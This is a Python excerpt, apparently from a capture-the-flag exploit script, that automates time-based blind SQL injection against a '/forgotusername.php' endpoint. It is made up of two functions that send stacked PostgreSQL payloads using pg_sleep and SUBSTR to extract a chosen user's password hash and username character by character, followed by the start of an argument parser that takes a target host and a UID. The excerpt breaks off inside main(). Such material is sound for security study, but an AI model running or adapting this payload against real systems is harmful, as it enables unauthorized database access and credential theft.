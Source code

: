 ```py
'''Here come the Functions'''
# Function to extract the hash for the username selected
def hashExtractTimeBased(rhost,uid):
    global password
    url = "http://%s" %rhost + "/forgotusername.php"
    password = []
    list = string.digits + string.ascii_letters
    limit_inf = 1
    limit_sup = 1
    iterator = 0
    print("The password is: ")
    while(iterator < len(list)):
        for c in list[iterator]:
            data = "username=0x4rt3mis';SELECT+CASE+WHEN+COUNT((SELECT+password+FROM+users+WHERE+uid=" + uid +"+AND+SUBSTR(password," + str(limit_inf) + "," + str(limit_sup) + ")+SIMILAR+TO+'" + c + "'))<>0+THEN+pg_sleep(2)+ELSE+''+END;+--+-"
            res = requests.post(url, data=data, proxies=proxies, headers=headers)
            elapsed = res.elapsed.total_seconds()
            if elapsed > int(2):
                password.append(c)
                limit_inf = limit_inf + 1
                sys.stdout.write(c)
                sys.stdout.flush()
                iterator = 0
            else:
                iterator = iterator + 1
    password = ''.join(password)
    
# Function to extract username selected
def usernameExtractTimeBased(rhost,uid):
    global password
    url = "http://%s" %rhost + "/forgotusername.php"
    password = []
    list = string.ascii_letters + string.digits
    limit_inf = 1
    limit_sup = 1
    iterator = 0
    print("The username is...")
    while(iterator < len(list)):
        for c in list[iterator]:
            data = "username=0x4rt3mis';SELECT+CASE+WHEN+COUNT((SELECT+username+FROM+users+WHERE+uid=" + uid + "+AND+SUBSTR(username," + str(limit_inf) + "," + str(limit_sup) + ")+SIMILAR+TO+'" + c + "'))<>0+THEN+pg_sleep(2)+ELSE+''+END;+--+-"
            res = requests.post(url, data=data, proxies=proxies, headers=headers)
            elapsed = res.elapsed.total_seconds()
            if elapsed > int(2):
                password.append(c)
                limit_inf = limit_inf + 1
                sys.stdout.write(c)
                sys.stdout.flush()
                iterator = 0
            else:
                iterator = iterator + 1
    password = ''.join(password)
    
def main():
    # Parse Arguments
    parser = argparse.ArgumentParser()
    parser.add_argument('-t', '--target', help='Target ip address or hostname', required=True)
    parser.add_argument('-u', '--uid', help='Target UID user', required=True)

    args = parser.parse_args()
    
```
